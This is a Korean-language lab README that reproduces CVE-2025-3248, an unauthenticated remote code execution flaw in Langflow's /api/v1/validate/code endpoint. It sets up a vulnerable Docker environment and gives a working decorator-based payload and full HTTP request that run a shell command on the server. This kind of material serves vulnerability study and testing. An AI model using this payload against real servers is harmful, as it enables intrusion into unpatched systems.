# Langflow `validate/code` API 인증 없이 원격 코드 실행 (CVE-2025-3248)

[中文版本(Chinese version)](README.zh-cn.md) | [English version](README.en.md)

---

Langflow는 에이전트 기반 AI 워크플로우를 구축할 수 있는 인기 있는 오픈소스 도구로, Python 기반의 웹 인터페이스를 통해 시각적으로 AI 기반 에이전트 및 파이프라인을 구성할 수 있습니다.

Langflow 1.3.0 이전 버전에는 치명적인 인증되지 않은 원격 코드 실행 취약점(CVE-2025-3248)이 존재합니다.  
취약한 엔드포인트(`/api/v1/validate/code`)는 사용자가 제출한 Python 코드를 `ast` 모듈로 파싱한 후 `exec`를 이용해 함수 정의를 실행합니다.  
하지만 Python의 decorator 및 기본 인자(default argument)는 함수 정의 시점에 함께 실행되므로, 이를 통해 임의의 코드를 삽입해 실행할 수 있습니다.

- **취약점 종류**: `Pre-auth Remote Code Execution`  
- **CVE ID**: `CVE-2025-3248`  
- **영향 버전**: `Langflow < 1.3.0`

공격자는 악의적으로 조작된 함수 정의를 보내며, decorator 또는 기본 인자를 이용해 코드를 주입함으로써 서버 권한으로 명령어를 실행할 수 있습니다.

## 참고 자료

- [horizon3.ai 분석 보고서](https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/)
- [Langflow 1.3.0 릴리즈](https://github.com/langflow-ai/langflow/releases/tag/1.3.0)
- [관련 Pull Request](https://github.com/langflow-ai/langflow/pull/6911)

---

## 환경 구성

### 사용 기술 및 환경

- Docker
- docker-compose
- Langflow 1.2.0 이미지
- Burp Suite (PoC 전송용)

### 실행 명령어

```bash
docker compose up -d
```
![](docker_up.jpg)

서버가 시작되면, Langflow 웹 인터페이스는 http://your-ip:7860 에서 접근할 수 있습니다.
기본 로그인 자격 증명은 administrator:vulhub 입니다.

## 환경 실행 후 Langflow 인터페이스 확인
<p align="center">
  <img src="Langflow_interface_1.jpg" width="400"/>
  <img src="Langflow_interface_2.jpg" width="400"/>
</p>


서버가 시작되면, Langflow 웹 인터페이스는 `http://your-ip:7860` 에서 접근할 수 있습니다.  
기본 로그인 자격 증명은 `administrator:vulhub` 입니다.

## 취약점 재현

### 요청 정보

- URL: http://localhost:7860/api/v1/validate/code
- Method: POST
- Content-Type: application/json

### 공격 Payload
``` json
{
  "code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"
}
```

해당 취약점을 재현하려면 `/api/v1/validate/code` 엔드포인트에 악의적으로 조작된 Python 함수 정의를 담은 POST 요청을 전송하면 됩니다.  
예를 들어, 아래 payload는 decorator를 통해 서버에서 `id` 명령어를 실행합니다:

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

## Burp Suite를 이용해 위 요청을 보낸 결과: 
![](burp_poc.jpg)